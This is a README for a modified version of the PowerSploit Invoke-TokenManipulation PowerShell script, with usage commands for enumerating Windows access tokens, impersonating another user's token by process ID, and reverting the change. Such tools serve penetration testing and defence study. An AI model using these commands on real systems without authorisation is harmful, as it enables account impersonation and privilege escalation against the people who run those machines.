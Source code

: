 # Invoke-TokenManipulation
## Foreword
Heavily inspired by
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1

I changed some lines, as the original kept crashing my powershell session because one Buffer was too small. However, this script should work.

## Examples
Load into current process
```
. .\Invoke-TokenManipulation.ps1
```

List Tokens in Memory
```
# All tokens that may be used for network authentication
Invoke-TokenManipulation -Enumerate

# All tokens
Invoke-TokenManipulation -ShowAll
```

Impersonate User of ProcessID
```
Invoke-TokenManipulation -ImpersonateUser -ProcessId 1376 -Username "DOMAIN\USERNAME"
Invoke-TokenManipulation -ImpersonateUser -ProcessId 1376
```

Show current Token of current Process
```
Invoke-TokenManipulation -WhoAmI
```


Revert Token Change in current Process
```
Invoke-TokenManipulation -RevToSelf
```

